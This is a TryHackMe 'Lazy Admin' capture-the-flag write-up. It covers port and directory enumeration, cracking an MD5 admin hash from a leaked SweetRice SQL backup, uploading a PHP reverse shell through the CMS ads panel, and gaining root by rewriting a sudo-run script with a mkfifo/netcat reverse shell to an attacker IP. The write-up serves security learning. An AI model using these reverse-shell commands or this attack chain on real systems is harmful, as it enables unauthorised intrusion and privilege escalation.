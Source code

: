 ```yaml
---
title: "Lazy Admin"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="lazy.jpeg" width=200 height=200 alt="lazy">

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf

```
                        [Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10
/content                [Status: 200, Size: 2199, Words: 109, Lines: 36]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]

.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2199, Words: 109, Lines: 36]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

There is a `"content"` directory

```
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed

Powered by Basic-CMS.ORG SweetRice.

//down down bad practices...

These tips may be useful for you install SweetRice.

1,Open your website.

Default,when you installed SweetRice,your website's status is "close",and SweetRice will show "Site is building now , please come late.?" to visitors,if you ready to open your website,you can go to Setting -> General , uncheck the checkbox for "Site Close" and submit,your website's status will be "open".

When you upgrade website, this feature may be useful.You can input some words to the textarea for "Site Close Tip" to replace the word "Site is building now , please come late.?".

2,Protect your data.

SweetRice save all important file in the inc directory,there are two kinds of format ?:.txt (link.txt , htaccess.txt, lastest.txt) and .db (if track feature enabled).If you are using apache server,the file .htaccess which in inc directory will work for protect your data,if your server is nginx,you may see Security setting for Nginx.For other web server ,you may try it yourself.

3.Enable URL rewrite

Apache server supports .htaccess,when URL rewrite feature enabled ?,a .htaccess file will be saved to your web root directory.The file content is:

RewriteEngine On
RewriteBase "your web root"
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . index.php [L]

Nginx server does not supports .htaccess file,you may add the URL rewrite config to the nginx.conf or your nginx config file.

example:

location / {
root /htdocs;
index index.html index.php;
if (!-e $request_filename){
		 rewrite ^/demo/.+$ /demo/index.php last;
}
}

4,Set permalinks

SweetRice supports custom permalink,you can go to Setting->Permaliks to set permalinks for Attachment,RssFeed,tag etc.

5,Custom SweetRice

SweetRice is very simple,but you can easy to build your custom website,Do not like default theme?you can use the example \_themes/wblog to build a new theme or download theme from SweetRice Themes?;

Need new feature?you can build a plugin and install it,some plugin at SweetRice Plugins? and you can submit your request to us.
```

Lets visit /content/inc then

latest version of basic-cms sweetrice is 1.5.1 (no great cve anyway)

And a backup of sql database is downloadable (lol that's it)

Just read it

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

so basically creds are

`Lazy Admin : 42f749ade7f9e195bf475f37a44cafcb`

Its a hash and its crackable

its md5 for `Password123`

I wonder if can ssh with that? nope we gotta find a login page....go fuzz content again

we get a `"as"` directory with a login page

Ok the credentials were actually

`manager : Password123`

Still doesnt work for ssh...we have to abuse that website

in Ads panel we can create custom ads...its php code that will be executed so I say Reverse shell it is!

when created you can actiate your shell by clicking on your named ad in `/content/inc/ads`

As they say in the movies...we are in!

the user home folder is named `itguy`

```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:randompass //hohoho..great
```

FLAG #1
`$ cat user.txt`
THM{lazy_flag_for_lazy_people}

Time to get real

## Privilege Escalation

```
sudo -l
Matching Defaults entries for www-data on THM-Chal:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we can run that perl backup script in user folder...let's analyse its code

```
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

it runs `/etc/copy.sh`...so what is that?

```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

its already a reverse shell..we will just adapt it to point to us

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 4444 >/tmp/f' > /etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl
```

And we are done

```
# id

uid=0(root) gid=0(root) groups=0(root)

# cat root.txt

THM{super_flag_to_get_root_instantly}
```

Feeling lazy too now...that one room was enough for today!

